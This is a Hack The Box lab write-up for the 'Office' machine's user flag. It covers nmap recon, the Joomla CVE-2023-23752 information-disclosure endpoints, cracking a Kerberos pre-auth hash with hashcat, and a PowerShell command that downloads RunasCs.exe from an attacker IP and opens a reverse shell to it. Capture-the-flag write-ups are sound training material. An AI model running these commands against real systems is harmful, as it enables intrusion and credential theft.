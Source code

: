 # writeup office HTB(user)
## user
### RECON
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 16 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-title: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-19 14:34:25Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
..........................................

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38823/tcp): CLEAN (Timeout)
|   Check 2 (port 18395/tcp): CLEAN (Timeout)
|   Check 3 (port 60879/udp): CLEAN (Timeout)
|   Check 4 (port 60573/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h59m52s
| smb2-time: 
|   date: 2024-02-19T14:35:21
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 01:36:08 2024 -- 1 IP address (1 host up) scanned in 105.60 seconds
```
### web
let check admin page 
![image](https://github.com/vanatka10/myblog/assets/126310360/8cf1bcb3-0cb5-4c13-93c0-a7d89ea5a3f8)

i have login with some default username and password but nothing are corret

let check version joomla
we can check verion with following path:
```
Version
In /administrator/manifests/files/joomla.xml you can see the version.
In /language/en-GB/en-GB.xml you can get the version of Joomla.
In plugins/system/cache/cache.xml you can see an approximate version.
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

![image](https://github.com/vanatka10/myblog/assets/126310360/857f9313-2f9e-43d5-a2a7-889871041884)
### CVE-2023-23752
we can easily found cve of this version
![image](https://github.com/vanatka10/myblog/assets/126310360/6607d033-ebe1-4973-a4fd-99226cdf4ce1)

Unauthenticated information disclosure that's exactly what we want.

look at some exploit file we can see it with send request to some uri and retrieve some useful information:
```
{root_url}/api/index.php/v1/users?public=true
{root_url}/api/index.php/v1/config/application?public=true
```
![image](https://github.com/vanatka10/myblog/assets/126310360/7abb26a3-441a-466b-91ad-d538bbf8b461)

https://github.com/Acceis/exploit-CVE-2023-23752.git
### smb
```
smbclient //10.129.198.153/SOC\ Analysis  -U 'dwolfe'
```
and get file pcap

following this article we get username, hash and crack password with hashcat
https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```
hashcat -m 19900 hash.txt /user/share/wordlist/rockyou.txt
```

pass:playboy69

### user

login admin panel -> template and ... get reverse shell
![image](https://github.com/vanatka10/myblog/assets/126310360/aaaf5e9b-a270-4b37-a264-d755805607e1)

next we use runas to elevate an account
```
powershell -c wget 10.10.16.48:9000/RunasCs.exe -o r.exe
./r.exe tstark playboy69 -r 10.10.16.48:8888 cmd


```
